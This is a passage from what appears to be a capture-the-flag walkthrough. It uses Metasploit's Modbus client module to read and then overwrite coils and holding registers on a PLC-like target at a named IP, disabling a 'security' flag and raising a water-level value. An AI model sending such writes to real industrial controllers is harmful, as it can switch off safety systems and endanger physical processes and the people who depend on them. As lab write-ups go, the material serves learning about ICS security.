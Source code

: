 And the result: 

```text
msf6 auxiliary(scanner/scada/modbusclient) > run
[*] Running module against 34.28.96.173

[*] 34.28.96.173:502 - Sending READ COILS...
[+] 34.28.96.173:502 - 1 coil values from address 1 : 
[+] 34.28.96.173:502 - [1]
[*] Auxiliary module execution completed
```

This value might define something in the update response, so lets try to change it. Enabling the WRITE_COILS action and setting the following options:

```bash
Basic options:
  Name            Current Setting  Required  Description
  ----            ---------------  --------  -----------
  DATA            0                no        Data to write (WRITE_COIL and WRITE_REGISTER modes only)
  DATA_ADDRESS    1                yes       Modbus data address
  DATA_COILS                       no        Data in binary to write (WRITE_COILS mode only) e.g. 0110
  DATA_REGISTERS                   no        Words to write to each register separated with a comma (WRITE_REGISTERS mode only) e.g. 1,2,3,4
  HEXDUMP         false            no        Print hex dump of response
  NUMBER          1                no        Number of coils/registers to read (READ_COILS, READ_DISCRETE_INPUTS, READ_HOLDING_REGISTERS, READ_INPUT_REGISTERS modes only)
  RHOSTS          34.28.96.173     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT           502              yes       The target port (TCP)
  UNIT_NUMBER     1                no        Modbus unit number

```

The response from update now return: `{"security":false,"temperature":14,"water_level":250}`. Showing that the coil written to, controlled the security system status. Setting the action to READ_HOLDING_REGISTERS and DATA_ADDRESS to 1, the value 14, is output. This must correspond to the water temperature level. Setting the DATA_ADDRESS to 2, outputs 250, meaning the water_level is controlled by this value. Lets try to manipulate it.

Setting the action to WRITE_REGISTER and using the following options:

```bash
Basic options:
  Name            Current Setting  Required  Description
  ----            ---------------  --------  -----------
  DATA            400              no        Data to write (WRITE_COIL and WRITE_REGISTER modes only)
  DATA_ADDRESS    2                yes       Modbus data address
  DATA_COILS                       no        Data in binary to write (WRITE_COILS mode only) e.g. 0110
  DATA_REGISTERS                   no        Words to write to each register separated with a comma (WRITE_REGISTERS mode only) e.g. 1,2,3,4
  HEXDUMP         false            no        Print hex dump of response
  NUMBER          1                no        Number of coils/registers to read (READ_COILS, READ_DISCRETE_INPUTS, READ_HOLDING_REGISTERS, READ_INPUT_REGISTERS modes only)
  RHOSTS          34.28.96.173     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT           502              yes       The target port (TCP)
  UNIT_NUMBER     1                no        Modbus unit number

Description:
  This module allows reading and writing data to a PLC using the Modbus protocol.
  This module is based on the 'modiconstop.rb' Basecamp module from DigitalBond,
  as well as the mbtget perl script.
```